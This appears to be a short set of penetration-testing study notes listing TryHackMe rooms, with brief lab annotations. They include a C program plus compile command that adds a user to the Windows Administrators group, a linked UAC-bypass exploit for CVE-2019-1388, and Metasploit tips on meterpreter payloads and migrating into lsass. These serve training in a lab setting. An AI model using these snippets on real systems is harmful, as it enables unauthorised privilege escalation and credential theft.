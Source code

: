 ### THM
- [Bolt](https://tryhackme.com/r/room/bolt)
- [Ice](https://tryhackme.com/r/room/ice)
- [Internal](https://tryhackme.com/r/room/internal)
- [blog](https://tryhackme.com/r/room/blog)
- [post-Exploitation](https://tryhackme.com/r/room/postexploit)
- [Hack Smarter Security](https://tryhackme.com/r/room/hacksmartersecurity)
	- Instead, I chose to create an executable that will add the tyler user to the Administrators local group.
	- Writing a very simple C code that does this.
	
	`#include <stdlib.h>`  
	`int main() {` 
		`system("cmd.exe /c net localgroup Administrators tyler /add");` 
		`return 0;` 
	`}`
	- Now Compiling it into an executable for Windows.
		x86_64-w64-mingw32-gcc-win32  payload.c -o payload.exe   

- [Windows PrivSec Aena](https://tryhackme.com/r/room/windowsprivescarena) 
- [Windows Privsec](https://tryhackme.com/r/room/windows10privesc)
- [blaster](https://tryhackme.com/r/room/blaster)
	- https://github.com/nobodyatall648/CVE-2019-1388 -- Bypass UAC


## Notes
- https://github.com/y3t1sec/ejpt_study_notes


### Tips
- for badblue 2.7 
	- set PAYLOAD windows/meterpreter/bind_tcp
- Always migrate to explorer.exe or lsass 
	- ps -S lsass.exe